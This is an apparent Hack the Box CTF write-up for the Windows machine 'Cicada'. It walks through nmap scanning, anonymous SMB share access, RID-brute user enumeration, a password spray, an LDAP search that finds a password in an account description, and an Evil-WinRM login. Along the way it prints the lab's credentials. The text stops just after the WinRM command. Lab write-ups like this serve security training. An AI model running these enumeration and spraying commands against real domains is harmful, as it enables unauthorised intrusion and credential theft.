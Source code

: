 ```yaml
--- 
title: "Hack the Box (HTB) - Cicada"
description: "Path Traversal & Arbitrary code execution"
date: 2025-10-26 12:00:00 -100
image: /assets/images/HTB - Cicada/Cicada TN.jpg
categories: [CTF]
tags: [windows,smb,]    # TAG names should always be lowercase
---
```


## Enumeration

We'll start by running an ***nmap*** scan against our target at `10.10.11.35`

```bash
nmap -sC -sV -A -p- 10.10.11.35 -oN nmap.txt
```

We see the following ports & services

| Port   | State | Service        | Server / Version                                         |
|--------|-------|----------------|---------------------------------------------------------|
| 53     | open  | domain         | Simple DNS Plus                                         |
| 88     | open  | kerberos-sec   | Microsoft Windows Kerberos (server time: 2024-11-21)   |
| 135    | open  | msrpc          | Microsoft Windows RPC                                   |
| 139    | open  | netbios-ssn    | Microsoft Windows netbios-ssn                          |
| 389    | open  | ldap           | Microsoft Windows Active Directory LDAP                |
| 445    | open  | microsoft-ds   | Microsoft Windows SMB                                  |
| 464    | open  | kpasswd5       | Unknown (Kerberos Password Change)                     |
| 593    | open  | ncacn_http     | Microsoft Windows RPC over HTTP 1.0                   |
| 636    | open  | ssl/ldap       | Microsoft Windows Active Directory LDAP over SSL       |
| 3268   | open  | ldap           | Microsoft Windows Active Directory Global Catalog      |
| 3269   | open  | ssl/ldap       | Microsoft Windows Active Directory Global Catalog over SSL |
| 5985   | open  | http           | Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)                |
| 60977  | open  | msrpc          | Microsoft Windows RPC                                  |

Let's start with enumeration on SMB

```bash
netexec smb cicada.htb -u Jigsaw64 -p "" --shares
```

![Initial SMB](/assets/images/HTB%20-%20Cicada/Initial%20SMB.png)

It looks like we have anonymous access to the `HR` & `IPC$` shares. Since IPC$ is a system default administrative share let's check the non-standard HR share

![HR Share](/assets/images/HTB%20-%20Cicada/HR%20Share.png)

We see a text file labeled **Notice form HR.txt**. Let's grab this file

![HR file](/assets/images/HTB%20-%20Cicada/HR%20File.png)

We were successfully able to grab the HR note. Let's proceed to examine the contents of this file

![New hire PW](/assets/images/HTB%20-%20Cicada/New%20hire%20pw.png)

It appears to be ***domain access credentials*** for a new hire. It includes a default password of `Cicada$M6Corpb*@Lp#nZp!8` and instructions for changing it upon logging into their Cicada Corp account

We have a password, but we don't know if any users on this domain. Let's use the tool `netexec` to enumerate the domain cicada.htb. First, let's add the domain to our /etc/hosts file

```bash
echo "10.10.11.35 cicada.htb CICADA-DC.cicada.htb" | sudo tee -a /etc/hosts
```

This command maps the domain `cicada.htb` and hostname `CICADA-DC.cicada.htb` to the IP `10.10.11.35`

Now, let's run netexec to enumerate our users

```bash
netexec smb cicada.htb -u username -p "" --rid-brute
```

![Users](/assets/images/HTB%20-%20Cicada/Users.png)

We have our users. This likely worked due to the server being misconfigured to allow anonymous SID enumeration via SMB, likely due to poor GP or domain security settings

The users are as follows:

| RID   | Username           |
|-------|---------------------|
| 500   | Administrator       |
| 501   | Guest               |
| 502   | krbtgt              |
| 1000  | CICADA-DC$          |
| 1104  | john.smoulder       |
| 1105  | sarah.dantelia      |
| 1106  | michael.wrightson   |
| 1108  | david.orelious      |
| 1601  | emily.oscars        |

Now let's put the users into a file

![user file](/assets/images/HTB%20-%20Cicada/Users%20file.png)

Great, now we can begin the password spray attack

```bash
netexec smb cicada.htb -u users.txtr -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```

![Users confirmed](/assets/images/HTB%20-%20Cicada/Users%20confirmed.png)

It looks like the password for `michael.wrightson` is valid. The guest fallback for administrator is irrelevant

With a valid user, we can probably query LDAPas it often requires valid credentials

We can run the following command to connect to the LDAP server on cicada.htb to extract domain information

```bash
ldapsearch -H ldap://cicada.htb -D 'michael.wrightson@cicada.htb' -w 'Cicada$M6Corpb*@Lp#nZp!8' -b 'dc=cicada,dc=htb' | grep -i -B 5 -A 5 "pass"
```

![David Pass](/assets/images/HTB%20-%20Cicada/David%20Pass.png)

Oops, it looks like `David Orelious` opted to put his password `aRt$Lp#7t*VQ!3` in his account description

Let's now enumerate the SMB shares as `david.orelious`

```bash
netexec smb cicada.htb -u david.orelious -p 'aRt$Lp#7t*VQ!3' --shares
```

![Dev Read access](/assets/images/HTB%20-%20Cicada/Dev%20Read%20access.png)

We have read access to the `DEV` share. Let's connect and see what's inside

```bash
smbclient -U "david.orelious" //10.10.11.35/DEV
```

![Inside DEV](/assets/images/HTB%20-%20Cicada/Inside%20DEV.png)

We see this powershell script `Backup_script.ps1`. Let's grab this script and take a look at it

```bash
get "Backup_script.ps1"
```

![ps1 script](/assets/images/HTB%20-%20Cicada/ps1%20script.png)

The script looks like it's designed to backup the C:\smb directory, compress it into a zip and save it into D:\Backup. There's a mention of username `emily.oscars` and password `Q!3@Lp#M6b*7t*Vt` but they don't actually get  used in the script

Let's use to see what shares emily has access to

![Emily SMB enum](/assets/images/HTB%20-%20Cicada/Emily%20SMB%20enum.png)

With this user, we have read/write access to `C$` (the entire C: drive)

![User Flag](/assets/images/HTB%20-%20Cicada/User%20flag.png)

There's the `user flag`

We need an actual shell though. Earlier we numerated port `5986` which is commonly used for ***Windows Remote Management (WinRM) over HTTPS*** WinRM is a protocol that lets admins manage windows systems remotely. By default, WinRM is limited to members of the admin group / members of the remote management group

Obviously since `emily.oscars` has more privileges on the SMB shares, she might also have the necessary rights to use WinRM

Here, we can use a tool called [Evil-WinRM](https://www.kali.org/tools/evil-winrm/) to interact wit the WinRM service as it's much easier and 

```bash
evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
```

